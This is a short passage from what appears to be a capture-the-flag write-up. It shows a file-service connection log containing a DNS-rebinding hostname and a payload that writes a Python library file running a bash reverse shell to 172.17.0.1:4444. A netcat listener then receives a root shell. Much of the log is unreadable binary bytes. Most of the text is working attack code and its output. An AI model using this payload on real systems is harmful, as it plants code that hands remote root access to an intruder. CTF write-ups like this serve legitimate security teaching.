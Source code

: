 ```json

```

We wait some time and check the fileservice connections.  

```
new connection from => ('127.0.0.1', 33562)
%!�u`J%?^@I_y} *;DXԷ;e[k?7=Fb)U/>,0̨̩̪+/$(k#'g
9       3=<5/ac110001.7f000001.rbndr.us

                                                                                                                                                                                         p/1.11
                                                                                                                                                                               +-3&$ LYI(mRtx?PiYUe)
mkfile /usr/lib/python3.8/libmonitor.py def new_record(data):__import__('os').system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'");return 0
%c10|uE+$G;!fd4/'1�+

```

We can see our payload in clear text. Check the reverse shell.  

```json
└─$ rlwrap nc -lnvp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 55054
root@11d563d1e01b:/ctf# id
id
uid=0(root) gid=0(root) groups=0(root)
root@11d563d1e01b:/ctf#
```

-----



